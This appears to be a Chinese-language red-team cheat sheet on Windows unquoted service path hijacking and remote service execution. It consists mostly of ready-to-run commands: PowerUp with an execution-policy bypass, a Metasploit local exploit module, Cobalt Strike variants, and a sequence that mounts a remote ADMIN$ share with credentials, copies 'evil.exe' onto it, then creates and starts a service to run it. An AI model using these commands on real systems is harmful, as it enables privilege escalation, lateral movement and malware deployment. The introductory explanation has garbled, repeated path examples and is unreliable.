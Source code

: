 # 路径劫持

> 服务路径(存储在Windows注册表项中)[2]和快捷方式很容易被路径拦截，如果路径有一个或多个空格，并且没有被引号包围(例如，C:\ \program.exe vs. C:\ safe path with space\program.exe)。"C:\安全路径与空格\program.exe")。对手可以将可执行文件放在路径的较高级别目录中，Windows将解析该可执行文件而不是预期的可执行文件。例如，如果快捷方式中的路径是C:\program files\myapp。竞争对手可以在C:\program.exe上创建一个程序，该程序将代替预期的程序运行


## 服务路径

## CMD
```
powershell -ep bypass .\powerup.ps1 Invoke-AllChecks

powershell -ExecutionPolicy Bypass .\powerup.ps1 Invoke-AllChecks

```

## MSF
```
exploit/windows/local/trusted_service_path
exploit
```
## cs下操作：

```
powershell-import /path/to/PowerUp.ps1

powershell Invoke-AllChecks
```

# 服务执行

## 远程创建一个新服务

### CMD
```
net use \COMP\ADMIN$ "password" /user:DOMAIN_NAME\UserName

copy evil.exe \COMP\ADMIN$\acachsrv.exe

sc \COMP create acachsrv binPath= "C:\Windows\System32\acachsrv.exe" start= auto description= "Description here" DisplayName= "DisplayName"

sc \COMP start acachsrv

```

### cs下操作：
```
shell net use \COMP\ADMIN$ "password" /user:DOMAIN_NAME\UserName

shell copy evil.exe \COMP\ADMIN$\acachsrv.exe

shell sc \COMP create acachsrv binPath= "C:\Windows\System32\acachsrv.exe" start= auto description= "Description here" DisplayName= "DisplayName"

shell sc \COMP start acachsrv
```
